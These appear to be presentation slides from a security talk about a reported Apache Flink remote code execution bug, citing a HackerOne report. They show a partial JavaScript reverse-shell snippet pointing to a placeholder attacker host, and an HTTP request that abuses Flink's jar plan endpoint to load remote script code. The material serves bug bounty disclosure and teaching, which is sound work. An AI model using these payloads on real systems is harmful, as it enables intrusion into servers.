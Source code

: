 <BarBottom title="hackerone.com/reports/1418891">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Apache Flink RCE


- shell.js: [^1]

```js
var host = "https://evil.example.org";
var port = 8888;
var cmd = "/bin/bash";

var p = new java.lang.ProcessBuilder(cmd, "-i").redirectErrorStream(true) // [...]
```

[^1]: https://gist.github.com/frohoff/8e7c2bf3737032a25051

<BarBottom title="hackerone.com/reports/1418891">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

```http
GET /jars/145df7ff-c71a-4f3a-b77a-ee4055b1bede_a.jar/plan
?entry-class=com.sun.tools.script.shell.Main&programArg=-e,load("https://fs.bugbounty.jarijaas.fi/aiven-flink/shell-loader.js")
&parallelism=1 HTTP/1.1
Host: ████
Authorization: Basic █████
```

<BarBottom title="hackerone.com/reports/1418891">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Apache Flink RCE

- https://hackerone.com/reports/1418891
- https://github.com/Jarijaas/helsec-1103/blob/master/pocs/flink.py

<BarBottom title="hackerone.com/reports/1418891">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

[^1]: https://github.com/aiven/terraform-provider-aiven/blob/v2.1.9/aiven/templates/service_user_config_schema.json
[^1]: https://docs.aiven.io/docs/products/kafka/kafka-connect/howto.html
[^1]: https://github.com/Jarijaas/helsec-1103